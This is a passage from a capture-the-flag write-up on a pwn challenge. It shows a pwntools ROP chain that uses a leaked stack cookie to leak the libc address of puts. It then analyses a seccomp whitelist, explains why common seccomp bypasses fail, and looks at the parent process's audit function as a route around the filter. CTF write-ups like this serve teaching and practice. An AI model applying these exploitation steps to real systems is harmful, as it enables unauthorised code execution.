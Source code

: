 ```python
    return(u64(b"".join(cookie)))
```

Okay, now we can ROP without any constraints.
We will need a libc leak though, so let's get it.

```python
rop = ROP(exe) # pwntools library, really cool one
rop.raw(cookie)
rop.raw(rbp)
rop.puts(exe.got["puts"])
io.send(genPayload(rop.chain()))
putsAddr = io.recvline()[:-1]
putsAddr += b"\x00" * (8-len(putsAddr))
putsAddr = u64(putsAddr)
print(hex(putsAddr))
```

Usually, when we have full ROP capacities with leaks of everything, it's really easy to get a shell. However, in order to print the flag, we would have to, at least, have access to the open syscall, or mmap.

We have neither, let alone execve, which would fail to execute a decent .bin/sh anyway without open.

So here lies the difficulty of this challenge: bypassing the seccomp.

I initally thought about the classing seccomp bypass. One is about using 32bit code in order to have access to the 32 bit syscall table, which means different syscall numbers, and the second one is about adding 0x40000000 to the syscall number in order to process the x32 syscall ABI table.

None of them will work here, the first one wouldn't because of the lines 
```
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
``` 

which checks for the architecture to be exclusevly x86_64, and the second wouldn't either because the checks are not done in a blacklist way, it's a whitelist. So 0x400000be is as faulty as 0xbe.

At this point I still checked a bit on the internet to see if there wasn't another way to bypass seccomp rules, that was it.

That can only mean one thing: We can play around this seccomp without bypassing it.

The father process is not incapacitated by those seccomp rules, so it's our first hope.

The only moment when our input is acknowledged by the father process, is, as I said before, during the audit function:

```
void audit(const struct shared *shared, int status)
{
	/* Do not log failed attempts, exit early */
	if(WIFEXITED(status) && !shared->loggedin)
		return;

	/* Initialize the logger */
	static bool init = false;

	if(!init) {
		openlog(IDENT, 0, LOG_DAEMON);
		init = true;
	}

	/* Determine the message and priority */
	char msg[0x200];
	int prio;

	if(WIFEXITED(status)) {
```